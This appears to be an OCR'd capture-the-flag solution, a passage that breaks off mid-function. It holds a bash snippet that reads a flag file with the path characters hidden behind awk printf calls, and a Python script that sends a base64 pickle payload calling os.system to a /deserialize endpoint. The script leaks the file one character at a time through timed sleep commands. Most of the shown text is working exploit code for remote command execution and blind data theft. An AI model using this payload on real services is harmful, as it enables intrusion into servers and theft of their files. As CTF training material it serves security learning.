 ``` {.Bash language="Bash"}
#substr.sh
#the range for the substring will be appended py the python script
#newlines and indents added for readabilty, original without newlines
#expr substr cat ../flag.txt
expr substr $(
    cat
        $(awk 'BEGIN{printf "%c", 46}')
        $(awk 'BEGIN{printf "%c", 46}')
        $(awk 'BEGIN{printf "%c", 47}')
        flag
        $(awk 'BEGIN{printf "%c", 46}')
        txt
)
```

``` {.python language="Python"}
#sol.py
import base64
import requests
import time

# 1 indexed
# will sleep for the ascii value - the given ofset
def sub_str(start, end):
    with open("substr.sh", mode="rb") as f:
        code = f.read().strip()
    code += b' '
    code += str(start).encode() + b' ' + str(end).encode()
    return (code)

# 1 indexed
def sleep_ascii(idx):
    code = sub_str(idx, idx)
    code = code + b" | od -An -tuC | awk '{$1=$1; print}' | cut -d' ' -f1"
    code = b'sleep $(' + code + b')'
    return code

# 1 indexed
# will sleep for the ascii value - the given ofset
def sleep_ascii_offset(idx, offset):
    code = sub_str(idx, idx)
    code += b" | od -An -tuC | awk '{$1=$1; print}' | cut -d' ' -f1"
    code = b'expr $( ' + code + b' ) - ' + str(offset).encode()
    code = b'sleep $(' + code + b')'
    return code

# code is the bash generated bash code
def send_code(code):
    payload = b"cos\nsystem\n(S'" + code + b"'\ntR"
    exploit = base64.b64encode(payload).decode()
    form = {
            'data': exploit
    }
    start_time = time.time()
    r = requests.post("http://IP:PORT/deserialize", data=form)
    end_time = time.time()
    elapsed_time = end_time - start_time
    print(f"Request took {elapsed_time:.1f} seconds")
    print(r.status_code)
    print(r.text)
    return elapsed_time

def get_flag_len():
    with open('srcipt_len_back.sh', mode='rb') as f:
```